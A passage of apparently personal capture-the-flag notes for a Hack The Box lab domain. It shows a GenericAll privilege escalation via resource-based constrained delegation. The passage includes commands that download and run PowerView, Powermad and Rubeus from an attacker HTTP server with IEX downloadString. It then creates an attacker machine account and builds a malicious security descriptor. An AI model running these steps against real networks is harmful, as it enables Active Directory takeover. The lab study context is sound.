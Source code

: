 					- Powermad : https://github.com/Kevin-Robertson/Powermad
					- Powerview : https://github.com/PowerShellMafia/PowerSploit
					- Rubeus.exe : https://github.com/Flangvik/SharpCollection
				- Send it to target :
					```bash
---Local-Machine---
python -m http.server 8001  # at location of files to send

---Target-Machine---
curl http://10.10.14.25:8001/Rubeus.exe -o Rubeus.exe
curl http://10.10.14.25:8001/PowerView.ps1 -o PowerView.ps1
curl http://10.10.14.25:8001/Powermad.ps1 -o Powermad.ps1
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.25:8001/Powermad.ps1')
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.25:8001/PowerView.ps1')
```
## Generic-All Exploit
- We first test if we can create new machines:
	```PowerShell
Get-DomainObject -Identity 'DC=SUPPORT,DC=HTB' | select ms-ds-machineaccountquota

---OUTPUT---
ms-ds-machineaccountquota
-------------------------
                       10
```
	- By default any windows domain user can create upto 10 machines
		- Should change to harden system
- Now we start the attack (from bloodhound info):
	- First, if an attacker does not control an account with an SPN set, Kevin Robertson's Powermad project can be used to add a new attacker-controlled computer account:
		```bash
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)

---OUTPUT---
[+] Machine account attackersystem added
```
	- PowerView can be used to then retrieve the security identifier (SID) of the newly created computer account::
		```bash
> $ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
> $ComputerSid

---OUTPUT---
S-1-5-21-1677581083-3380853377-188903654-5601
```
	**NOTE: Password should probably follow one uppercase, one lowercase, one number, one special character atleast to make sure we don't come across issues if password complexity was set**
	- We now need to build a generic ACE with the attacker-added computer SID as the principal, and get the binary bytes for the new DACL/ACE (this should give us authentication on behalf of the user):
		```bash
> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
> $SD
> $SDBytes = New-Object byte[] ($SD.BinaryLength)
> $SD.GetBinaryForm($SDBytes, 0)
